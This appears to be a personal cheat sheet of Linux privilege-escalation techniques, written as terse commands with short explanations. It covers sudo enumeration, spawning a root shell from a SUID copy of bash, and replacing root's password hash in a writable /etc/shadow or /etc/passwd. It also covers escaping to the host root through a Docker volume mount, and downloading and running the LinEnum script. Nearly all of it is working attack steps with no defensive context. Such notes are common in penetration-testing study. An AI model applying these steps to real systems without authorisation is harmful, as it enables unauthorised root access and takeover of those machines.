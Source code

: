 				Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
mkpasswd -m sha-512 password		Makes password Hash
-- replace root password hash with the one you just generated
su root								switch to user

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
openssl passwd password			      Generate password hash
--  place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
su root			
				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/